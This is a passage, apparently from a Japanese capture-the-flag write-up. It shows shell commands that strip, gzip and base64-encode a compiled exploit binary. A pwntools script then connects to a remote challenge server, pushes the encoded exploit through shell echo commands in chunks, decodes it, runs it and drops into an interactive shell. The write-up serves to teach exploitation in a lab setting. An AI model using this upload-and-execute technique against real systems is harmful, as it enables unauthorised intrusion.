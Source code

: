 続いて、もっと軽くします。さらに、bashのビルトイン機能だけで送れるようにASCII onlyに変換します:

```sh
strip ./exploit
gzip ./exploit
base64 ./exploit.gz > ./exploit.gz.b64
```

ここまでで下準備は終了です。
以下のコマンドを`sender.py`として用意してあげましょう:

```py
#!/usr/bin/env python
#encoding: utf-8;

from pwn import *
import sys,os

exploit_bin = "exploit.gz.b64"

## exploit ###########################################

def exploit():
  global c

  with open(exploit_bin, 'r') as f:
    binary = f.read()

  progress = 0
  N = 0x300

  c.sendlineafter('$', 'cd /tmp')

  print("[+] sending base64ed exploit (total: {})...".format(hex(len(binary))))
  for s in [binary[i: i+N] for i in range(0, len(binary), N)]:
    c.sendlineafter('$', 'echo -n "{}" >> exploit.gz.b64'.format(s)) # don't forget -n
    progress += N
    if progress % N == 0:
      print("[.] sent {} bytes [{} %]".format(hex(progress), float(progress)*100.0/float(len(binary))))
  c.sendlineafter('$', 'base64 -d exploit.gz.b64 > exploit.gz')
  c.sendlineafter('$', 'gunzip ./exploit.gz')

  c.sendlineafter('$', 'chmod +x ./exploit')
  c.sendlineafter('$', './exploit')

## main ##############################################

if __name__ == "__main__":
    global c
    c = remote("sc.skb.pw", 49404)
    exploit()
    c.interactive()
```
